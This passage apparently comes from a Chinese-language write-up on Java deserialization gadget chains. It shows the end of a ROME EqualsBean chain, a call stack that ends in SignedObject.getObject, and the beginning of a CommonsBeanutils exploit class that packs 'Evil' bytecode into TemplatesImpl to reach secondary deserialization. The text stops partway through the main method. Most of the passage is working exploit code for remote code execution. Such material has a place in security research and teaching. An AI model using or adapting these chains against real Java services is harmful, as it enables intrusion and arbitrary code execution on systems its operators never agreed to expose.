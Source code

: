 ```java
        HashMap map2 = new HashMap();
        map1.put("yy", bean);
        map1.put("zZ", payloadObj);
        map2.put("zZ", bean);
        map2.put("yy", payloadObj);
        Hashtable table = new Hashtable();
        table.put(map1, "1");
        table.put(map2, "2");
        setFieldValue(bean, "_beanClass", clazz);
        setFieldValue(bean, "_obj", payloadObj);
        return table;
    }
}
```
调用栈：
```
getObject:177, SignedObject (java.security)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
beanEquals:146, EqualsBean (com.sun.syndication.feed.impl)
equals:103, EqualsBean (com.sun.syndication.feed.impl)
equals:495, AbstractMap (java.util)
reconstitutionPut:1241, Hashtable (java.util)
readObject:1215, Hashtable (java.util)
```

#### CommonsBeanutils
类`org.apache.commons.beanutils.BeanComparator`的compare方法会触发静态方法`PropertyUtils#getProperty`，最终直接调用任意getter方法
```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import org.apache.commons.beanutils.BeanComparator;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.security.KeyPair;
import java.security.KeyPairGenerator;
import java.security.Signature;
import java.security.SignedObject;
import java.util.PriorityQueue;

public class CB_SingedfObject {
    public static void setFieldValue(Object obj,String fieldname,Object value)throws Exception{
        Field field = obj.getClass().getDeclaredField(fieldname);
        field.setAccessible(true);
        field.set(obj,value);
    }

    public static void main(String[] args) throws Exception {
        byte[] bytes= ClassPool.getDefault().get(Evil.class.getName()).toBytecode();

        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][]{bytes});
        setFieldValue(obj, "_name", "a");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());

        PriorityQueue queue1 = getpayload(obj, "outputProperties");
```